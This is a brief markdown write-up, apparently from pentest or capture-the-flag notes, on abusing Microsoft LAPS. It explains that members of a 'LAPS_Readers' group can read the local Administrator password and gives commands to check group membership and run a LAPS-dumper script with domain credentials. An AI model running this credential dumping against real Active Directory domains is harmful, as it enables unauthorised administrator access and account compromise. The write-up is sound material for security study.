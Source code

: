 ## LAPS Introduction
>Microsoft’s Local Administrator Password Solution([LAPS](https://www.microsoft.com/en-us/download/details.aspx?id=46899)) simplifies password management and stores passwords centrally in the existing Active Directory (AD) infrastructure. The way LAPS works is relatively simple.  A client side component on each computer generates a random password.  The password gets stored in Active Directory, in an attribute of the computer object.  Only Domain Admins are able to view the value of the attribute.  The client generates a new password every so often as determined by the configuration and updates Active Directory with the new password and the expiration time.

## Exploit Summary
> If a user is in the group `LAPS_Readers` they can read the Administrator password for the local computer. 


## Exploit
### Check groups for user
```sh
> net user svc_deploy
Global Group memberships     *LAPS_Readers
```

### Use LAPS-dumper to dump the administrator password
```sh
python3 laps.py -u 'USERNAME' -p 'PASSWORD' -d DOMAIN
```





